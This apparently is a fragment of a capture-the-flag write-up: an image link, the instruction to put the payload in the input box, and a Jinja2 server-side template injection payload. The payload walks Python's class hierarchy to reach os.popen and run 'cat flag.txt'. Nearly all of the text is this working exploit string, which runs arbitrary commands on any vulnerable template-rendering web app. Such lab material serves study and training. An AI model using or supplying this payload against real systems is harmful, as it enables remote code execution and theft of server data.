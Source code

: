 put the payload in the input box   

payload:  
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}`